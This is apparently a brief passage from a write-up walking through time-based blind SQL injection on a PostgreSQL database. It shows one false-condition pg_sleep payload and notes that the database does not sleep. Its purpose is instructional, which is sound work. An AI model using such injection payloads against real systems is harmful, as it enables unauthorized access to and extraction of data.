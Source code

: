 <figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

Now, trying with the false condition payload:

<mark style="color:yellow;">`'; SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(-1) END --`</mark>

DBS does not sleep under false condition
